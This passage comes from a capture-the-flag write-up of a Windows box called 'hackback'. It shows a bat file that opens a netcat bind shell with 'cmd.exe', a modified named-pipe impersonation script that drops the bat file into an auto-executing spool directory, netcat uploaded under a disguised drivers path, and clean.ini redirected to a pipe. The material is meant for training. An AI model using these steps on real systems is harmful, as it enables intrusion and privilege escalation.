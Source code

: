 So I can run commands as hacker, but I can’t create a new process, at least
not with the `CreateProcessWithTokenW` API call. I also can’t connect out to
my box because of the firewall rules. But I do have a directory, `spool`, that
is running all bat files in it, that I currently can’t write to. So if I can
write a bat file to the directory, it will be run. I can use that bat file to
create a `nc` listener, and then, once it’s run, proxy a connection to it to
get a shell as hacker. Alternatively, I could do load some shellcode and run
it reflectively, but this path seems simpler to me.

#### Execution

I’ll write a simple bat file to open a `nc` listener:

    
    
    root@kali# cat df.bat
    c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444
    

I’ll create a copy of `pipeserverimpersonate.ps1`, `pipe.ps1`, and add a line
where I can run code as hacker to copy my bat file into the spool directory:

    
    
    ...[snip]...
    ### we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
    echo "user=$user "
    copy \windows\system32\spool\drivers\color\df.bat \util\scripts\spool\0xdf.bat
    ...[snip]...
    

I’ll use the WinRm upload to bring `nc64.exe`, `df.bat`, and `pipe.ps1` to
target:

    
    
    PS hackback\simple@HACKBACK scripts> UPLOAD nc64.exe \windows\system32\spool\drivers\color\nc.exe
    Uploading nc64.exe to \windows\system32\spool\drivers\color\nc.exe26892 bytes of 60360 bytes copied
    53784 bytes of 60360 bytes copied
    60360 bytes of 60360 bytes copied
    OK
    
    PS hackback\simple@HACKBACK spool> UPLOAD pipe.ps1 \windows\system32\spool\drivers\color\df.ps1
    Uploading pipe.ps1 to \windows\system32\spool\drivers\color\p.ps113016 bytes of 13016 bytes copied
    OK
    
    PS hackback\simple@HACKBACK Documents> UPLOAD df.bat \windows\system32\spool\drivers\color\df.bat
    Uploading df.bat to \windows\system32\spool\drivers\color\df.bat88 bytes of 88 bytes copied
    OK
    

Now I’ll change `clean.ini` to write to the pipe, and then start the ps1
server:

    
    
    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=\\.\pipe\dummypipe`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini
    
